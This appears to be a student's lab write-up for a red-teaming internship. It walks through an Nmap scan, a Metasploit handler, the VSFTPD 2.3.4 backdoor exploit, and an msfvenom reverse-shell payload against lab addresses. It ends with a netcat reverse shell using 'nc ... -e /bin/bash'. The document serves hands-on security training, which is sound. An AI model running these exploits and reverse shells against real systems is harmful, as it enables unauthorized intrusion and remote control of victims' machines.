






# Week 4 - CYART Red Teaming Internship

## 🔴 Introduction

Red Teaming involves simulating real-world cyber attacks to test system security. In this lab, we performed reconnaissance, exploitation, payload creation, and reverse shell to understand the complete attack lifecycle.

---

# 🧠 Tools Used

* Kali Linux
* Metasploit Framework
* Nmap
* Netcat
* AWS CLI

---

# 🔵 1. Reconnaissance (Nmap Scan)

## Command

```
nmap 192.168.30.129
```

## Screenshot



## Explanation

Nmap was used to scan the target machine and identify open ports and services like FTP, SSH, MySQL, and VNC.

---

# 🔴 2. Command & Control (Handler Setup)

## Commands

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.30.130
set LPORT 4444
run
```

## Screenshot



## Explanation

A reverse TCP handler was configured to listen for incoming connections from compromised systems.

---

# 🟣 3. Exploitation (VSFTPD Backdoor)

## Commands

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.30.129
set LHOST 192.168.30.130
run
```

## Screenshot


## Explanation

The VSFTPD 2.3.4 vulnerability was exploited to gain unauthorized access to the target system.

---

# 🟡 4. Post Exploitation

## Commands

```
getuid
pwd
sysinfo
```

## Screenshot



## Explanation

After exploitation, system information was gathered and root access was confirmed.

---

# 🟠 5. Payload Creation

## Command

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.30.130 LPORT=4444 -f elf > shell.elf
```

## Screenshot



## Explanation

A reverse shell payload was created using msfvenom.

---

# 🔵 6. Reverse Shell (Netcat)

## Commands

### Kali

```
nc -lvnp 4444
```

### Victim

```
nc 192.168.30.130 4444 -e /bin/bash
```

## Screenshot



## Explanation

A reverse shell was established, allowing remote command execution on the victim machine.

---

# 🟢 7. Cloud Attack Simulation

## Command

```
aws --version
```

## Screenshot



## Explanation

AWS CLI was used to simulate cloud environment interaction.

---

# 🟣 Conclusion

This practical demonstrated the complete attack lifecycle including reconnaissance, exploitation, payload creation, and remote access. It provided hands-on experience with real-world red teaming tools and techniques.

---

# ⭐ Learning Outcome

* Understood attack lifecycle
* Gained hands-on penetration testing skills
* Learned exploitation techniques
* Experienced real-world cybersecurity scenarios

---
